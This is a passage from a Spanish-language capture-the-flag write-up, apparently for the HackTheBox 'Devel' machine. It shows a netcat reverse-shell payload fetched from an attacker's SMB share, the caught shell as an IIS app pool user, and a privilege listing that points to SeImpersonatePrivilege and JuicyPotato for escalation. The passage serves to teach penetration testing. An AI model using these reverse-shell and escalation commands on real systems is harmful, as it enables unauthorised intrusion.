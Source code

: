 Desde la web `ejecutamos` este `payload`

```
\\10.10.16.16\\smbFolder\nc.exe -e cmd 10.10.16.16 9993
```

![](/assets/img/Devel/image_2.png)

Ganamos acceso a la máquina víctima 

```
# nc -nlvp 9993
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.155.162] 49202
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

## Privilege Escalation (First Method)

`Listamos` nuestros `privilegios` actuales y vemos que `SeImpersonatePrivilege` está activado por lo tanto podemos `convertirnos` en el usuario `Administrator`

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

`Listamos` la `información` del sistema, para verificar si podemos utilizar `JuicyPotato` para convertirnos en `Administrator` o debemos usar una herramienta alternativas
